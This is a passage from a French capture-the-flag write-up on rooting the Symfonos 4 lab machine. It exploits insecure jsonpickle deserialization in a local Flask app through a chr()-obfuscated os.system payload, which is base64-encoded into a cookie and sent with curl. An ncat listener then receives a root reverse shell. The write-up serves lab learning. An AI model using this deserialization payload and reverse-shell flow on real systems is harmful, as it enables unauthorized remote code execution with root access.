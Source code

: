 Ma première logique a été de créé un script `jsonpickle.py` dans le dossier `/opt/code` mais ça ne fonctionnait pas, sans doute car le code est déjà chargé par l'appli (éventuellement avec un reboot ça pourrait fonctionner).

Je me suis penché alors sur le module `jsonpickle`. Le module `pickle` de Python est connu pour être dangereux s'il désérialise des données non sûres, il y a fort à parier que ce soit la même chose pour `jsonpickle`.

Effectivement sur exploit-db je trouve une astuce pour créer un jsonpickle permettant l'exécution de commande : [python jsonpickle 2.0.0 - Remote Code Execution - Multiple remote Exploit](https://www.exploit-db.com/exploits/49585)

Je parviens à obtenir quelque chose de sympathique de cette façon :

```python
>>> jsonpickle.decode('{"1": {"py/repr": "os/os.system(chr(47)+chr(116)+chr(109)+chr(112)+chr(47)+chr(120))"}, "2": {"py/id": "67"}}')
sh: 1: /tmp/x: not found
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/local/lib/python2.7/dist-packages/jsonpickle/unpickler.py", line 41, in decode
    return context.restore(data, reset=reset, classes=classes)
  File "/usr/local/lib/python2.7/dist-packages/jsonpickle/unpickler.py", line 150, in restore
    value = self._restore(obj)
  File "/usr/local/lib/python2.7/dist-packages/jsonpickle/unpickler.py", line 207, in _restore
    return restore(obj)
  File "/usr/local/lib/python2.7/dist-packages/jsonpickle/unpickler.py", line 514, in _restore_dict
    data[k] = self._restore(v)
  File "/usr/local/lib/python2.7/dist-packages/jsonpickle/unpickler.py", line 207, in _restore
    return restore(obj)
  File "/usr/local/lib/python2.7/dist-packages/jsonpickle/unpickler.py", line 288, in _restore_id
    return self._objs[idx]
TypeError: list indices must be integers, not unicode
```

Ici je fais exécuter le fichier `/tmp/x`. J'ai eu à changer ça pour `/dev/shm/x` car l'appli Flask be semblait pas voir mon fichier dans `/tmp` (sans doute la magie noire de `systemd`).

Pour l'exploitation il faut encoder le payload en base64 puis le donner comme cookie à l'endpoint `/whoami` :

```bash
curl -D- http://127.0.0.1:8080/whoami -H "Cookie: username=eyIxIjogeyJweS9yZXByIjogIm9zL29zLnN5c3RlbShjaHIoNDcpK2NocigxMDApK2NocigxMDEpK2NocigxMTgpK2Nocig0NykrY2hyKDExNSkrY2hyKDEwNCkrY2hyKDEwOSkrY2hyKDQ3KStjaHIoMTIwKSkifSwgIjIiOiB7InB5L2lkIjogIjY3In19;"
```

Et kikiçé qui a un beau shell root qui ride de l'hippocampe ? :-D

```shellsession
$ ncat -l -p 7777 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::7777
Ncat: Listening on 0.0.0.0:7777
Ncat: Connection from 192.168.56.115.
Ncat: Connection from 192.168.56.115:34120.
id
uid=0(root) gid=0(root) groups=0(root)
cd /root
ls
proof.txt
cat proof.txt

        Congrats on rooting symfonos:4!
 ~         ~            ~     w   W   w
                    ~          \  |  /       ~
        ~        ~        ~     \.|./    ~
                                  |
                       ~       ~  |           ~
```
